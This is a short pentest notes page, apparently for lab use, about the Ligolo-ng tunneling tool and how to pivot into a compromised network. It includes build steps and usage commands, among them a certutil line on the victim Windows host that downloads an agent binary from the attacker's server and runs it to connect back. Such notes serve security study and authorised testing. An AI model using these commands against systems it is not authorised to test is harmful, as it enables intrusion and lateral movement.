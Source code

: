 ![[what-is-tunneling-in-networking.svg]]

---

# ¿WHAT IS LIGOLO?
Ligolo allows you to establish a tunnel from your attacking machine to the victim's internal network. This practice is, for example, to enumerate internal devices in the victim's network without external visibility, so we compromise any machine with visibility to the internal network and thus be able to establish a tunnel that allows us vision to the network.
![[Pasted image 20241213194400.png]]

**Link Reference:** https://hackingepico.com/posts/LIGOLO-NG-Tutorial/

# INSTALL
```shell
sudo apt update
sudo apt install git make gcc golang-go

git clone https://github.com/nicocha30/ligolo-ng
cd ligolo-ng
make
sudo cp dist/ligolo-ng-proxy-linux_amd64 /usr/local/bin/ligolo
```

# USAGE
```shell
#LINUX MACHINE
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.81.0/24 dev ligolo
ligolo -selfcert -laddr 0.0.0.0:4433

python3 -m http.server 80


#WINDOWS
certutil.exe -f -urlcache -split http://192.168.45.189/dist/ligolo-ng-agent-windows_amd64.exe
.\ligolo-ng-agent-windows_amd64.exe -connect 192.168.45.189:4433 -ignore-cert -retry


#LINUX
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```